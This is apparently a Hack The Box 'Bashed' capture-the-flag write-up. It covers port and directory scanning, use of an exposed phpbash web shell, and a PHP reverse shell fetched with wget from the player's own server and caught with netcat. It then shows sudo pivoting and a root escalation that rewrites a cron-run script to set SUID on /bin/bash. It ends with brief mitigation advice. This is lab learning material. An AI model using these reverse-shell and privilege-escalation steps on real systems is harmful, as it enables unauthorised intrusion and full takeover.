

# Bashed

```
kali@kali:~/htb/Bashed$ sudo nmap -sV -sC 10.129.88.188
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-28 10:04 EST
Nmap scan report for 10.129.88.188
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Ok, the webpage leads to a blog about PHPbashing. Nothing really to click, except a blog post.

I decide to run wfuzz:

```
kali@kali:~/htb/Bashed$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.188/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.188/FUZZ
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        161 L    397 W    7743 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        161 L    397 W    7743 Ch     "# Copyright 2007 James Fisher"                                    
000000007:   200        161 L    397 W    7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000014:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"                                            
000000016:   200        19 L     88 W     1566 Ch     "images"                                                           
000000012:   200        161 L    397 W    7743 Ch     "# on atleast 2 different hosts"                                   
000000013:   200        161 L    397 W    7743 Ch     "#"                                                                
000000011:   200        161 L    397 W    7743 Ch     "# Priority ordered case sensative list, where entries were found"
000000010:   200        161 L    397 W    7743 Ch     "#"                                                                
000000008:   200        161 L    397 W    7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000005:   200        161 L    397 W    7743 Ch     "# This work is licensed under the Creative Commons"               
000000006:   200        161 L    397 W    7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000000002:   200        161 L    397 W    7743 Ch     "#"                                                                
000000009:   200        161 L    397 W    7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000004:   200        161 L    397 W    7743 Ch     "#"                                                                
000000164:   200        1 L      1 W      14 Ch       "uploads"                                                          
000000338:   200        16 L     59 W     941 Ch      "php"                                                              
000000550:   200        20 L     96 W     1760 Ch     "css"                                                              
000000834:   200        17 L     69 W     1150 Ch     "dev"                                                              
000000953:   200        26 L     165 W    3167 Ch     "js"                                                               
000002771:   200        21 L     111 W    2097 Ch     "fonts"                                                            
000045240:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"

```

/uploads/ is empty, but /php/ contains a directory that shows sendMail.php

Which is completely empty. I try curling, burpsuite. But it is completely empty. So I decide to check out the PHPbash talked about in the blog.

`phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!`

So phpbash is a pentesting tool, developed on this exact server. Well. There is a /dev/ directory here.



So I try out phpbash.php:

```
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I’ll create a reverse shell, as I know more about the capabilities of the tty than phpbash. I try python, netcat, bash. But at the end I just decide to upload a php reverse shell.

```
kali@kali:~/htb/Bashed$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~/htb/Bashed$ sudo vim php-reverse-shell.php
kali@kali:~/htb/Bashed$ sudo python -m SimpleHTTPServer 8000

```

And then on the website:

```
www-data@bashed:/tmp# wget 10.10.14.52:8000/php-reverse-shell.php

--2021-01-28 13:52:51-- http://10.10.14.52:8000/php-reverse-shell.php
Connecting to 10.10.14.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

0K ..... 100% 445M=0s

2021-01-28 13:52:51 (445 MB/s) - 'php-reverse-shell.php' saved [5493/5493]
www-data@bashed:/tmp# php php-reverse-shell.php
```

And of course on the listener:

```
kali@kali:~/htb/Bashed$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.188 34008
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:53:03 up  6:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

I am slightly sad. I’ve had the ip 10.10.14.21 for well over a week. And now suddenly I am 10.10.14.52. And I’ve gotten so used to 21. Anyways. I improve the shell. Read more here: https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/ 

I look around a bit and find a user named scriptmanager, and also a directory called "scripts" owned by scriptmanager.

So I’m gonna try and log in as scriptmanager, and see what permissions that account has.

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$
scriptmanager@bashed:/$ whoami
scriptmanager
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```
Aha, so as scriptmanager we can now enter the scripts directory. I also checked /home/scriptmanager/.bash_history to see if there was anything good, but it was empty. 

Let’s look at this script:

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt ; echo
testing 123!
scriptmanager@bashed:/scripts$
```

So it simply opens a file and writes to it. Let’s check the permissions:

```
scriptmanager@bashed:/scripts$ ls -la 
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 14:14 test.txt
```

So the script is owned by scriptmanager, but the file is owned by root. We can also see the time discrepancy between the python file and the text file. 

The text file is actually last edited right now. So the python script is probably being ran constantly.

I edit the file with nano. I normally use vim, but it’s not installed. BTW. If the target machine has vim, you may be able to spawn a root shell with that, look more here: https://gtfobins.github.io/gtfobins/vim/ 

```
import os  

os.system("chmod 4755 /bin/bash")
```

This simply changes the permissions of /bin/bash. 4755 means that everyone can execute it, more here: https://chmodcommand.com/chmod-4755/ 

ctrl+X to exit nano, Y to write, and enter to have the same name.

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

-p means that bash will run in privileged mode.


## Comparing myself to the official writeup:

The official writeup uses the same methods, except it runs another reverse shell from the python program instead of changing the bash permissions. 


## How to stop this exploit:

The web user should not be able to access scripts, especially when you give an end-user access to that user by default with the phpbash dev site. The automatic script execution could also have an additional check. Maybe do a md5sum of the program, and only run it if the md5sum matches.


